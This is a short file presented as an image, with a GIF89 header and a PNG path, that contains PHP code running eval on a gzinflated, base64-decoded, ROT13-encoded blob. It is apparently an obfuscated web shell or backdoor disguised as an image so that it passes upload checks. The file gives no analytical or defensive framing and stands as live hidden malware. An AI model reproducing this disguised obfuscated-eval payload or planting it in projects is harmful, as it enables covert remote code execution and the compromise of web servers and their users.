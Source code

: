 GIF89GHZ
<?php eval (gzinflate(base64_decode(str_rot13("ML/EF8ZjRZnsUrk/hVMOJaQZS19pZ3kkVNtX06qEFgnxAct0bH2RGin/zljgT/c2q9
/iih+BI40TaSguWq98TXxc4k0pOiufqT+K7WvibboK8kxCfTyZ6IddrWcAV5mKhyANXlg0FkNPkJ2wTHUTrlQtoJHUjjyFGycunTqKtI8lnvzPLRJ
DT6ZEPUoIKJWkYyewYRFaJxt+epn6S0qs39+umDuTfsEJnSmd3HRWTkCv/WgX54K4g98833KBSUHXv/Ygqsr+k4USOENPRjxM/ZkaAk56eYDM0xJ5
sK552h1khNHKr2lIXpZOhYvSs2VHZh8O8oKbPibYUutxFLYKpCY2KCo8Y7ByDy6D0l8=")))); ?>
